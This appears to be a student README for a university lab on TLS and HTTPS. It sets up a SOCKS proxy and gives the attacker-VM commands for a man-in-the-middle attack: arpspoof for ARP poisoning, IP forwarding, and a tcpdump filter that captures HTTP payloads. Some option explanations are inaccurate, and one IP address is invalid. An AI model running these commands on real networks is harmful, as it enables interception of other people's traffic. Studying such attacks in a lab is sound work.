 # PCS Project 2- Part 2: Hands-on experience with TLS based web communication and preserving
confidentiality using HTTPS based communication.

## A. Team Information:

    * Bhargavi Poyekar: CH33454
    * Smit Patne: WD31175
Attacker: 133.228.86.1
Socks Proxy: 133.338.86.2 (130.85.121.58)
Web Server: 133.228.86.3

## B. Setup Socks Proxy:

    1. ssh -D 0.0.0.0:22222 Bhargavi@130.85.121.58

        => -D: setup tunnel from local port 22222

    2. Setting up proxy setting in Firefox:

        – Preferences->Network->Settings 
        – Manual Proxy: setup SOCKS5
        – 127.0.0.1 22222
    
    3. Login into server using ssh
        
        => ssh -o ProxyCommand='nc -x 127.0.0.1:22222 %h %p' crsuser@133.228.86.3

    4. In Local Machine's (Windows) /Windows/System32/drivers/etc/hosts.conf add :

        => 133.228.86.3 CH33454.csee.umbc.local

 
## C. Commands invoked on attacker VM (133.228.86.1) for ARP spoofing/poisoning.

    1. sudo arpspoof -i eth1 -t 133.228.86.2 -r 133.228.86.3

        => Arpspoof utility is used to redirect traffic from 133.228.86.2 
        and 133.228.86.3 to attacker machine 
        => -i just tells the interface.
        => -t specifies the target.
        => r specifies host. 

    2. sudo sysctl -w net.ipv4.ip_forward=1

        => Enables IP forwarding. 
        => Allows attacker machine to forward traffic between 
        target machines.
    
    3. sudo tcpdump -i eth1 -s0 -A -n -w http.pcap 'host 133.228.86.2 and host 133.228.86.3 and tcp port 80 
    and (((ip[2:2] -((ip[0]&0xf)<<2))-((tcp[12]&0xf0)>>2))!=0)'

        => -i: Mentions the interface.
        => -s0: Snaplen 0: Truncates the packages. 
        => -n: IP Addresses are not converted to names. 
        => -A : Ascii Readble text
        => -w: where to capture and store.
        => host : IP addresses of the target machines.
        => tcp port 80: http request and response.
        => remaining condition for not capturing http packets.
